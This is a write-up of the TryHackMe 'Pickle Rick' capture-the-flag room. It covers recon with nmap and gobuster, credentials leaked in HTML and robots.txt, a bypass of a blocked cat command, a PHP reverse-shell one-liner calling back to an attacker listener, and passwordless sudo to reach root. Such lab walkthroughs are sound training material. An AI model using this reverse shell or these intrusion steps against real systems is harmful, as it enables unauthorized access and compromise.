# 🥒 TryHackMe CTF – Pickle Rick Write-Up


## 📌 Introduction

The **Pickle Rick** room on TryHackMe challenges you to exploit a vulnerable web application, gain access to the target machine, and retrieve **three secret ingredients** that Rick needs to transform back into a human.

In this write-up, I'll walk you through exactly how I did it, from the initial recon all the way to popping a root shell and grabbing the final flag.

---

## 🎯 Target Information

| Field            | Details                     |
|------------------|-----------------------------|
| **Target IP**    | `10.113.130.132`            |
| **Target URL**   | `http://10.113.130.132/`    |
| **Port 22**      | SSH – OpenSSH 8.2p1         |
| **Port 80**      | HTTP – Apache 2.4.41        |
| **OS**           | Ubuntu Linux                |

---

## 🔍 Step 1 — Reconnaissance

After getting the target IP, the first thing I did was fire up **Nmap** to see what's running on the machine.

```bash
nmap -sV -sC -Pn 10.113.130.132
```

Here's what each flag does:

| Flag   | Purpose                                              |
|--------|------------------------------------------------------|
| `-sV`  | Detects service versions                             |
| `-sC`  | Runs Nmap's default scripts for extra info           |
| `-Pn`  | Skips host discovery (treats the target as online)   |



### Results

| Port     | State | Service | Version                  |
|----------|-------|---------|--------------------------|
| 22/tcp   | Open  | SSH     | OpenSSH 8.2p1 Ubuntu     |
| 80/tcp   | Open  | HTTP    | Apache httpd 2.4.41      |

Two open ports. SSH on port 22 could be useful later if I find valid credentials, but for now the **web server on port 80** is where the action is.

---

## 🌐 Step 2 — Web Enumeration (Inspecting the Homepage)

I opened the target URL in my browser:

```
http://10.113.130.132/
```



The page itself didn't reveal much at first glance, so I popped open **DevTools** and started digging through the HTML source. Hidden in the code was this juicy comment:

```html
<!--
    Note to self, remember username!

    Username: R1ckRul3s
-->
```



> **🔑 Found:** Username — `R1ckRul3s`

A username sitting right there in the source code! Classic Rick. Now I just needed a password to go with it.

---

## 📂 Step 3 — Directory Enumeration (Gobuster)

To hunt for hidden directories and files, I used **Gobuster** with a wordlist from [this repo](https://github.com/matteo741/Gobuster/blob/main/wordlist.txt):

```bash
gobuster dir --url http://10.113.130.132/ -w wordlist.txt
```



### Results

| Path            | Status | Significance                          |
|-----------------|--------|---------------------------------------|
| `/robots.txt`   | 200    | Accessible — might contain clues      |
| `/assets/`      | 301    | Redirects to assets directory         |
| `/.htaccess`    | 403    | Forbidden                             |
| `/.htpasswd`    | 403    | Forbidden                             |
| `/.htpasswds`   | 403    | Forbidden                             |
| `/login.php`    | 200    | **Login page** 👀                     |
| `/portal.php`   | 302    | Redirects to `/login.php`             |

Three standouts: **robots.txt**, **login.php**, and **portal.php**. Let's dig deeper.

---

## 🤖 Step 4 — Finding the Password in `robots.txt`

I navigated to:

```
http://10.113.130.132/robots.txt
```

Instead of the usual crawling directives, the file contained a single line:

```
Wubbalubbadubdub
```



That's not a normal robots.txt entry, that's Rick's catchphrase! I had a feeling this was the **password**.

> **🔑 Credentials Discovered:**
> - **Username:** `R1ckRul3s`
> - **Password:** `Wubbalubbadubdub`

I headed over to `/login.php`, typed in the creds, and... **we're in!** 🎉


After logging in, I was redirected to the portal where I found a **command input field**, basically a web shell. This was a huge breakthrough.



---

## 💻 Step 5 — Initial Command Execution

Time to see what we're working with. I typed `ls` into the command panel:

```bash
ls
```



### Output:

```
Sup3rS3cretPickl3Ingred.txt
assets
clue.txt
denied.php
index.html
login.php
portal.php
robots.txt
```

That filename `Sup3rS3cretPickl3Ingred.txt`  is basically the 1st ingredient.

### Bypassing the Disabled `cat` Command

My first instinct was to `cat` the file:

```bash
cat Sup3rS3cretPickl3Ingred.txt
```

But nope:

```
Command disabled to make it hard for future PICKLEEEE RICCCKKKK..
```



The `cat` command was blocked. No worries — there's more than one way to read a file. I used `nl` (number lines) instead:

```bash
nl -ba Sup3rS3cretPickl3Ingred.txt
```



```
1  mr. meeseek hair
```

> **🧪 Ingredient #1:** `mr. meeseek hair`

I also confirmed the file was accessible directly in the browser at:
```
http://10.113.130.132/Sup3rS3cretPickl3Ingred.txt
```

One down, two to go!

---

## 🔎 Step 6 — Investigating Further

After grabbing the first ingredient, I kept exploring. But when I tried to access some of the other pages, I got a message saying **only the real Rick** could view them.



The web portal was too restrictive for what I needed to do next. Time to get a proper shell.

---

## 🐚 Step 7 — Obtaining a Reverse Shell

A **reverse shell** makes the target machine connect *back* to my machine, giving me an interactive terminal — much more powerful than the limited web portal.

### Setting Up the Listener

On my attacking machine, I started a **Netcat** listener:

```bash
nc -lvnp 1234
```

| Flag      | Purpose                         |
|-----------|----------------------------------|
| `-l`      | Listen for incoming connections  |
| `-v`      | Verbose output                   |
| `-n`      | Disable DNS resolution           |
| `-p 1234` | Listen on port 1234              |

### Triggering the Reverse Shell

Through the web portal's command input, I submitted this PHP one-liner (replacing `<MY_IP>` with my machine's IP):

```php
php -r '$sock=fsockopen("<MY_IP>",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```





💥 **Shell received!** My Netcat listener caught the connection, and I now had direct terminal access to the target machine — no more command restrictions.

> [!NOTE]
> A reverse shell requires network connectivity between the target and the listener. Make sure you use *your* machine's IP, not the target's.

---

## 🧪 Step 8 — Finding the Second Ingredient

With a real shell, I searched the entire filesystem for files with "ingred" in the name:

```bash
find / -iname '*ingred*' 2>/dev/null
```

| Part                | Purpose                           |
| ------------------- | --------------------------------- |
| `find /`            | Search from root                  |
| `-iname '*ingred*'` | Case-insensitive name match       |
| `2>/dev/null`       | Suppress permission-denied errors |

The search pointed me to **Rick's home directory**:

```bash
cd /home/rick
ls -la
```





I read the file and found:

```
1  jerry tear
```

> **🧪 Ingredient #2:** `jerry tear`

Two down, one to go!

---

## 👑 Step 9 — Privilege Escalation (Getting the Third Ingredient)

The final ingredient was probably somewhere only **root** can access. Let's see what privileges we have:

```bash
sudo -l
```



Output:

```
(ALL : ALL) NOPASSWD: ALL
```

😲 **Full sudo with no password required.** That's an open door to everything.

### Grabbing the Final Flag

```bash
sudo ls -la /root
```

```
3rd.txt
snap
```

There it is. Let's read it:

```bash
sudo cat /root/3rd.txt
```





```
fleeb juice
```

> **🧪 Ingredient #3:** `fleeb juice`

**All three ingredients collected!** 🎉

---

## 🏆 Final Results

| #  | Ingredient           | Location / Discovery Method                        |
|----|----------------------|----------------------------------------------------|
| 1  | **Mr. Meeseek hair** | `Sup3rS3cretPickl3Ingred.txt` (web root)           |
| 2  | **Jerry tear**       | `/home/rick/` (Rick's home directory)              |
| 3  | **Fleeb juice**      | `/root/3rd.txt` (root directory)                   |

---

### 🏁 TryHackMe Room Solved



---

## 📝 Conclusion

The Pickle Rick CTF is a fantastic example of how **small information leaks** can chain together into a full system compromise.

Here's the attack flow in a nutshell:

1. **Nmap** revealed open HTTP and SSH ports
2. **HTML source** leaked a username in a comment
3. **Gobuster** found hidden pages including a login portal
4. **robots.txt** exposed the password (Rick's catchphrase, no less)
5. **Command portal** gave initial access, though `cat` was blocked — bypassed with `nl`
6. **Reverse shell** via PHP broke out of the restricted web interface
7. **sudo -l** revealed full passwordless root access — game over

### Key Takeaways

- 🔍 **Always inspect the HTML source** — developers leave comments more often than you'd think.
- 📂 **Run directory enumeration** (Gobuster, Dirb, etc.) to find hidden endpoints.
- 🤖 **Check `robots.txt`** — it can unintentionally expose sensitive info.
- 🔄 **Don't give up when a command is blocked** — there are always alternatives.
- 🐚 **Understand reverse shells** — they're essential for breaking out of restricted environments.
- 👑 **Check `sudo -l` early** during privilege escalation — you might get lucky.
- 🔒 **Apply least privilege** — no user should have `NOPASSWD: ALL`.

---

> *Rick is human again. The ingredients have been found. Mission accomplished.* 🥒➡️🧑‍🔬
